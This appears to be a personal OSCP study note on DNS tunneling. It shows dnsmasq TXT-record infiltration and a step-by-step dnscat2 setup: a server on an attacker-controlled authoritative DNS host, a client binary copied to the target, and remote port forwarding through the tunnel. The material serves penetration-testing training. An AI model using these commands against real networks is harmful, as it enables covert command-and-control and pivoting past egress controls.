 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/k-port-redirection-and-tunneling/4-dns-tunneling/"}
---
```


-------
## Manual DNS TXT Record Infiltration with dnsmasq:
1. Edit 'dnsmasq_txt.conf' on controlled dnsmasq server. Example:
```
# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```
2. Start dnsmaq:
```
sudo dnsmasq -C dnsmasq_txt.conf -d
```
3. Check that DNS requests are properly routed on target:
```
resolvectl status
```
4. Run a TXT resolution from the target to the server:
```
nslookup -type=txt www.feline.corp
```

--------------
## DNS Tunneling with dnscat2:
1. Start dnscat2-server on your authorative DNS server:
```
dnscat2-server <domain>
```
2. Transfer the dnscat binary to the target from: https://github.com/iagox86/dnscat2
3. Start the clients and connect them:
```
./dnscat --secret=<secret> <domain>
```
4. Enter your initiated window from the server:
```
#List active windows:
windows

#Enter the window:
window -i 1
```
5. Set up remote port forwarding tunnel:
```
listen 0.0.0.0:2345 <outip>:<outport>
```
6. Use tunnel with server port and ip = win!

